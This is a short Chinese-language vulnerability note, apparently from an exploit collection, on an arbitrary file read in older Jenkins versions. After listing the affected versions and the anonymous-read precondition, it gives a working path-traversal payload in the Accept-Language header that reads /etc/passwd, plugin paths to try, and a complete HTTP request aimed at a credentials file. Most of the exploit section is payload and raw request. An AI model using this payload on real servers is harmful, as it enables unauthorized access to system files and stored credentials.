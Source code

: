 <languages   />

影響版本
--------

Jenkins weekly 2.132 以及更早的版本 Jenkins LTS 2.121.1 以及更早的版本

可以讀取Windows系統服務器中的任意文件，且在特定而條件下也可以讀取Linux系統服務器中的文件.

漏洞利用
--------

需要已經開啟了匿名用戶讀取權限，在請求頭中添加：

    Accept-Language: /../../../../../../../../etc/passwd

處理請求中的包含路徑，比如/plugin/xxxx，可以嘗試:

    /plugin/jquery-detached/.xml
    /plugin/jquery-detached/.key
    /plugin/credentials/.ini

Windows:

    GET /plugin/credentials/.ini HTTP/1.1
    Host: x.x.x.x:8080
    Accept: text/javascript, text/html, application/xml, text/xml, */*
    X-Prototype-Version: 1.7
    DNT: 1
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.106 Safari/537.36
    Origin: http://x.x.x.x:8080
    Referer: http://x.x.x.x:8080/
    Accept-Encoding: gzip, deflate
    Accept-Language: /../../../../../../../../etc/passwd
    Cookie: JSESSIONID.450017e3=x6kdpnkcgllh18wvlaohsqq8z; screenResolution=1920x1080; JSESSIONID.ccf0cd96=node09crp5bs5eglyrv874no3w48l0.node0; JSESSIONID.6551b177=14vcq2nsop6bw1u8urepj65kwv; td_cookie=1608956971
    Connection: close